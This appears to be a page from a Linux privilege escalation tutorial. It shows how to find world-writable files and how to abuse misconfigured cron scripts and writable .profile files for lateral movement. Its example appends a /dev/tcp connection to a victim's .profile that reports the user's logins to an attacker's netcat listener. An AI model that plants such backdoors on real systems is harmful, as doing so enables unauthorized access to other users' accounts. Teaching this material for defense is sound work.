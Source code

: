 - https://payatu.com/guide-linux-privilege-escalation/ - Exploiting Badly Configured Cron Jobs

**Discuss: World writable files and folders**

World writable files and directories can be identified with the following command:

find / -type f -perm /2 -o -type d -perm /2 2>/dev/null # Search for any file or directory that is
writable by the context "other"

From a defensive position, you should ensure that there are no world writable files/directories on a
system. The exception is /tmp and /var/tmp

Although world writable files/directories are a concern, all you should care about is what files and
directories can you, or your current user context, write to. To find files and directories that you
have the ability to write to, use the command:

find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is
writable by the current user

As mentioned during the cron privilege escalation discussion, if any of the crontab scripts or
directories have excessive permissions, then they could potentially have been modified by a user
other than root or the appropriate user to obtain access of the user context of the user which
executes it. Unless cron is grossly misconfigured, it is unlikely that its files will be writable by any
entity other than root or the valid user for user cron scripts.

Non-root, regular users are most likely the cause of misconfigurations; however, their impact is
going to be limited to areas to which they have write access (i.e. their home directory). So what kind
of damage is possible here? If the user were to create a ".profile" in their home directory so that
they could change their environment when they log in, and inadvertently modified it with
excessive permissions, then we could edit the file and add anything to it so that when they log in,
would execute under their user context. Again, this may not be moving up, but lateral movement
can be just as important as it is newly acquired territory.

Trojan horse scripts and programs can be placed in world writable directories with names that
entice the user to execute them. Again, you can use this to obtain the user context of the unspecting
user, but as mentioned before, as lateral moving is gaining territory on the system.

The following is an example:

```
echo "exec 3<>/dev/tcp/192.168.1.40/4444" >> /home/user/.profile
echo "echo \$(whoami) logged in on \$(date) >&3" >> /home/user/.profile
```
Set up a netcat listener on system 192.168.1.40:


```
nc -lp 4444
```
Wait for "user" to log in to receive the output:

```
user logged in on Fri 19 Apr 2019 02:10:35 PM EDT
```
Although this doesn’t give access, you could write the commands that do.
